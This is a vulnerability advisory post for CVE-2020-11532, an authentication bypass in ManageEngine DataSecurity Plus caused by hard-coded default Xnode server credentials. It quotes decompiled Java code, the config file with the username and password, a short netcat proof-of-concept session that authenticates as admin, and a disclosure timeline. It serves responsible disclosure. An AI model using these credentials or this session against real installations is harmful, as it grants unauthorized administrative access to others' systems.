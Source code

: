 ```yaml
---
layout: post
title:  "CVE-2020-11532 DataSecurity Plus Xnode Server - Authentication Bypass Vulnerability"
tag: advisory
excerpt_separator: <!--more-->

---
```


ManageEngine DataSecurity Plus application uses default admin credentials to communicate with Dataengine Xnode server. This allows an attacker to bypass authentication for Dataengine Xnode server and  execute all operations in the context of admin user. Combining this vulnerability with the Path Traversal vulnerability, an **unauthenticated** attacker can execute code in the context of DataSecurity Plus application.  
<!--more-->



### **Identifiers**
 - CVE-2020-11532


### **CVSSv3 score**
9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)


### **Vendor**
ManageEngine - https://www.manageengine.com/data-security/


### **Product**
ManageEngine DataSecurity Plus is a two-pronged solution for fighting insider threats, preventing data loss, and meeting compliance requirements. It provides realtime monitoring of filesystem there by help in maintaining the file integrity and combating against ransomeware attacks using automated threat response mechanisms. It comes with the features such as  File Server Audting, Data Leak Prevention and Data Risk assessment. 


### **Affected versions**
 - All versions prior to 6.0.1 (6011)



### **Vulnerability summary**
ManageEngine DataSecurity Plus application uses default admin credentials to communicate with Dataengine Xnode server. This allows an attacker to bypass authentication for Dataengine Xnode server and  execute all operations in the context of admin user. Combining this vulnerability with the Path Traversal vulnerability, an **unauthenticated** attacker can execute code in the context of DataSecurity Plus application.


### **Technical details**
In order to communicate with the Dataengine Xnode server, the application first initializes the `DE` class at line:`31` of `DataEngineService.java` from `dataengine-controller.jar` package and calls the `build()` function of  `DE` class object at line: `41`.  

```java
29:  public DataEngineService() throws Exception
30:  {
31:    DE.initialize();
32:    com.manageengine.dataengine.controller.DE.plugins.deAdminActions = DspDEAdminActions.class;
33:    com.manageengine.dataengine.controller.DE.plugins.xnodeCtlrDataRepositoryActions = XNodeCtlrDataRepositoryActions.class;
34:    com.manageengine.dataengine.controller.DE.plugins.elasticCtlrDataRepositoryActions = ElasticCtlrDataRepositoryActions.class;
35:    com.manageengine.dataengine.controller.DE.plugins.xnodeReportViewActions = XNodeReportViewActions.class;
36:    com.manageengine.dataengine.controller.DE.plugins.elasticReportViewActions = ElasticReportViewActions.class;
37:    com.manageengine.dataengine.controller.DE.plugins.xnodeQueryConsoleViewActions = XNodeQueryConsoleViewActions.class;
38:    com.manageengine.dataengine.controller.DE.plugins.elasticQueryConsoleViewActions = ElasticQueryConsoleViewActions.class;
39:    com.manageengine.dataengine.controller.DE.plugins.deLegacyViewHandler = DspDELegacyViewHandler.class;
40:    com.manageengine.dataengine.controller.DE.plugins.drGeneralQueryParser = DspDRGeneralQueryParser.class;
41:    DE.build();
42:    controller = DE.controller();
43:  }
```

The `initialize` method of `DE` class is responsible for loading the configuration values from `dataengine-xnode.conf` file from the file system at line:45 by calling the `initialize()` method of `AdapEnvironment` class of `DE.java`. At line:60, the `build()` function intializes the `XNodeController` class.

```java
42:  public static void initialize()
43:    throws Exception
44:  {
45:    AdapEnvironment.initialize();
46:    engineType = (String)AdapEnvironment.DE_ENGINE.value();
47:  }
48:  
49:  public static void build() throws Exception {
50:    if ((engineType != null) && (engineType.equalsIgnoreCase("xnode"))) {
51:      if (plugins.xnodeCtlrDataRepositoryActions == null) {
52:        throw new Exception("xnodeCtlrDataRepositoryActions plugin not set!");
53:      }
54:      if (plugins.xnodeReportViewActions == null) {
55:        throw new Exception("xnodeReportViewActions plugin not set!");
56:      }
57:      if (plugins.xnodeQueryConsoleViewActions == null) {
58:        throw new Exception("xnodeQueryConsoleViewActions plugin not set!");
59:      }
60:      dataEngineController = new XNodeController();
```

The `XNodeController` class loads the default configuration values into a `propFileHandler` object which is internally passed to `build()` function of `XNode` class at line:`28` and `32` of `XNodeController.java`.

```java
22:  public XNodeController()
23:    throws Exception
24:  {
25:    if (!((Path)AdapEnvironment.DE_E_CONF_FILE.value()).toFile().exists()) {
26:      throw new FileNotFoundException("EXCEPTION : " + AdapEnvironment.DE_E_CONF_FILE.value() + " file not found!");
27:    }
28:    PropertiesFileUtil.PropertiesFileHandle propFileHandler = PropertiesFileUtil.getPropertiesFileHandle(((Path)AdapEnvironment.DE_E_CONF_FILE.value()).toAbsolutePath().toString(), false);
29:    xnodes = new XNodes();
30:    int nodeCount = propFileHandler.getInt("xnodes.count", Integer.valueOf(1)).intValue();
31:    for (int i = 1; i <= nodeCount; i++) {
32:      xnodes.addNode(propFileHandler, i);
33:    }
34:  }
```

**Contents of dataengine-xnode.conf file**

```
1:xnode.connector.port = 29119
2:xnode.connector.username = atom
3:xnode.connector.password = chegan
4:xnode.connector.tcp.json_decode_size_mb = 20
5:xnode.db.store.dbname = store
6:xnode.db.store.dbadapter = hsqldb
7:xnode.db.store.username =
8:xnode.db.store.password =
9:xnode.dr.archive.zip_password =
```


In the following code snippet at line:`238` and `239` of `XNode.java`, we can confirm that the application uses default admin credentials for communicating with Dataengine Xnode server. 

```java
231:  public static XNode build(PropertiesFileUtil.PropertiesFileHandle propFileHandler, int index) {
232:    XNodeSettings settings = new XNodeSettings();
233:    xnode_host.set(propFileHandler.getString(index + "." + "xnode.host", (String)xnode_host.getDefaultValue()));
234:    xnode_location.set(propFileHandler.getString(index + "." + "xnode.location", (String)xnode_location.getDefaultValue()));
235:    xnode_service_name.set(propFileHandler.getString(index + "." + "xnode.service_name", (String)xnode_service_name.getDefaultValue()));
236:    xnode_connector_type.set(propFileHandler.getString(index + "." + "xnode.connector.type", (String)xnode_connector_type.getDefaultValue()));
237:    xnode_connector_port.set(propFileHandler.getInt(index + "." + "xnode.connector.port", (Integer)xnode_connector_port.getDefaultValue()));
238:    xnode_connector_username.set(propFileHandler.getString(index + "." + "xnode.connector.username", (String)xnode_connector_username.getDefaultValue()));
239:    xnode_connector_password.set(propFileHandler.getString(index + "." + "xnode.connector.password", (String)xnode_connector_password.getDefaultValue()));
```


### **Proof of concept**
As can be seen, one can use the default admin credentials to bypass authentication for Dataengine Xnode server.

```bash
#~ nc 192.168.56.108 29119
{"username":"atom","password":"chegan","request_timeout":10,"action":"session:/authenticate"}
{"response":{"status":"authentication_success"},"request_id":-1}
{"action":"admin:/health","de_health":true, "request_id":1}
{"response":{"de_health":"GREEN"},"request_id":1}
```

### **Timeline**

|Date|Status|
|:---|:---|
|04-MAR-2020|Reported to vendor|
|13-MAR-2020|Patch available|
|05-MAY-2020|Public disclosure|